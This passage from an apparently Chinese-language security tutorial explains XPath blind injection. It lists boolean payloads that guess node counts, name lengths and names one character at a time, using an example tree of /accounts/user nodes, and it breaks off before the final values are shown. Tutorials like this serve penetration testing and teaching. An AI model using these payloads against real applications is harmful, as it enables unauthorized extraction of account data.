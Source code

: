 > xpath盲注适用于攻击者不清楚XML文档的架构，没有错误信息返回，一次只能通过布尔化查询来获取部分信息，**Xpath盲注步骤：**
>
> - 判断根节点下的节点数
> - 判断根节点下节点长度&名称
> - .....
> - 重复猜解完所有节点，获取最后的值
>
> 从根节点开始判断：
>
> ```
> 'or count(/)=1  or ''='     ###根节点数量为1
> 'or count(/*)=1 or ''='   ##根节点下只有一个子节点
> ```
>
> 判断根节点下的节点长度为8：
>
> ```
> 'or string-length(name(/*[1]))=8 or ''='
> ```
>
> 猜解根节点下的节点名称：
>
> ```
> 'or substring(name(/*[1]), 1, 1)='a'  or ''='
> 'or substring(name(/*[1]), 2, 1)='c'  or ''='
> ..
> 'or substring(name(/*[1]), 8, 1)='s'  or ''='
> ```
>
> 猜解出该节点名称为accounts
>
> ```
> 'or count(/accounts)=1  or ''='   /accounts节点数量为1
> 'or count(/accounts/user/*)>0 or ''='     /accounts下有两个节点
> 
> 'or string-length(name(/accounts/*[1]))=4  or ''='    第一个子节点长度为4
> ```
>
> 猜解accounts下的节点名称：
>
> ```
> 'or substring(name(/accounts/*[1]), 1, 1)='u'  or ''='
> ...
> 'or substring(name(/accounts/*[1]), 4, 1)='r'  or ''='
> ```
>
> accounts下子节点名称为user
>
> ```
> 'or count(/accounts/user)=2  or ''='    user节点有两个，则可以猜测出accounts节点结构，accounts下两个节点，均为user节点
> ```
>
> 第一个user节点的子节点长度为8：
> 'or string-length(name(/accounts/user[position()=1]/*[1]))=8 or ''=' 读取user节点的下子节点
>
> ```
> 'or substring(name(/accounts/user[position()=1]/*[1]), 1, 1)='u'  or ''='
> 'or substring(name(/accounts/user[position()=1]/*[1]), 2, 1)='s'  or ''='
> ...
> 'or substring(name(/accounts/user[position()=1]/*[1]), 8, 1)='e'  or ''='
> ```
>
> 最终所有子节点值验证如下：
>